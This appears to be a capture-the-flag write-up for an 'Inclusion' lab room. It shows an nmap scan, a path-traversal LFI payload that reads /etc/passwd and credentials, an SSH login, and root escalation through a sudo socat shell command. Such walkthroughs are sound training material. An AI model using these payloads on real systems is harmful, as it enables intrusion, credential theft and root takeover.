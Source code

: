 # LFI Vulnerability

[If you want to check my notes about IDORs](https://github.com/itKhalid143/websec100/blob/main/Days/Day8-LFI%20%26%26%20RFI.md)

***

## user.txt

First We make an nmap scan!
```java
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDH1X4Cqbxb5okQZBN3LvsIM8dYZOxeMWlReUkWWp+ICQ+6RjVs+bSbShCPac1Zc+lbnfHte1ZRtMW8a3OodW02+8PXcDbZlmMNMWUQmM76D2NZz28PDC7vouYqSQGt6J6gfsTq2YqCMVPU28uoJ/Qvg5C6hM3oFFDztV2BN7Pj+SgZ8a5htxv5wgn/PtWju2CJCQzPhLUrkAlrSb97/YQcvtjwXUGzKGHo62Cl6GINLm3nAVqJnNpm7aWcKowdfnEsrp+S41W5xV1gl4CyvE9usk5LfQwlPDF50FCgzsidA7mn4NbTukdTsNMAOTe0oAmjXAE0q/KCT076stYjRphX
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPvYRKovqOIYhJN1NV8r3T3YTa4N40XFZaWSQjuYyZIsuL6D8Xn9C4v925gPkS/wZyYBh7CRt6CcSbd2ekPByzo=
|   256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAd782HHJj9kHBKUMOUOgfWVBU9LdeGrlTDQ+Z0hD8yI
80/tcp open  http    syn-ack Werkzeug httpd 0.16.0 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### After our result, we can see we have 2 open ports! which are 22/80

### Let check the Website!


- My eyes went directly to ```LFI-attack``` post, as this room was for LFI.
![****](/Inclusion/Pictures/1.PNG)

- First thing we can see, this text is weird! then I thought that could be a file loaded from the host using execute function! Then why not Input different path in the Url! and this was my payload:

```
http://10.10.216.81/article?name=../../../../etc/passwd
```
![****](/Inclusion/Pictures/2.PNG)

- And here we have the username and the password! let try to SSH!
```
ssh falconfeast@10.10.216.81 
```
### Boom! We're in!

![****](/Inclusion/Pictures/user.PNG)

## root.txt

- First thing I go is! 
```
sudo -l
```
the result was!

![****](/Inclusion/Pictures/root.PNG)

```java
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Here we can run ```/usr/bin/socat``` as root! a quick search on gtfobins, the payload is ready
```php
sudo /usr/bin/socat stdin exec:/bin/sh
``` 

![****](/Inclusion/Pictures/root2.PNG)

# Thank you!